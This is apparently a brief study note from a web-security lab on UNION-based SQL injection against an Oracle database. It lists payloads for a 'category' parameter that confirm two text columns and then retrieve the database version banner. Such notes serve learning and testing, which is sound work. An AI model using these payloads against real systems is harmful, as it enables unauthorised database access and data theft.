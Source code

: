 ```yaml
---
dg-publish: true
---
```







- Can use a UNION attack to retrieve the results from an injected query.
- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'+FROM+dual--
```

- After verifying the category,
    - Use the following payload to display the database version: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`